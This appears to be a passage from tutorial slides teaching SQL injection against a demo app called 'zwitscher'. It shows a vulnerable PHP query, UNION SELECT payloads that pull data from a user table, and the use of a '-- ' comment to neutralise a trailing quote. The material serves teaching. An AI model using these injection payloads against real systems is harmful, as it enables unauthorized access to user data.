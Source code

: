 ```php
$sql = "SELECT * FROM zwitscher
        WHERE hashtag = '#dog'
        UNION
        SELECT * FROM user';";
```

[Run code](../zwitscher/?search=%23hashtag%27+UNION+SELECT+*+FROM+user)

<div style="text-align: left"><i>"SQL Error: You have an error in your SQL syntax. Check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1."</i></div>
<div style="text-align: left"><i>"Syntax Error: There is an interfering quotation mark."</i></div>

---

## Second try

- What to do with unwanted code?
<br />
- Comment it out!
- Approach: Get rid of interfering characters by commenting them out

--

## Second try

Input: <span style="color:crimson">#dog' UNION SELECT *  FROM user; -- </span>

( **Important:** Space after delimiter )

```php
$sql = "SELECT * FROM zwitscher
        WHERE hashtag = '#dog'
        UNION
        SELECT * FROM user; -- ';";
```

[Run code](../zwitscher/?search=%27+UNION+SELECT+*+FROM+user%3B+--+)

<div style="text-align: left"><i>"SQL Error: The used SELECT statements have a different number of columns."</i></div>

<div style="text-align: left">UNION requires the same number of fields in both result tables</div>

---

## What now?

- How many fields are there in the first query?
- We don't know :(

<br />
<br />
<br />
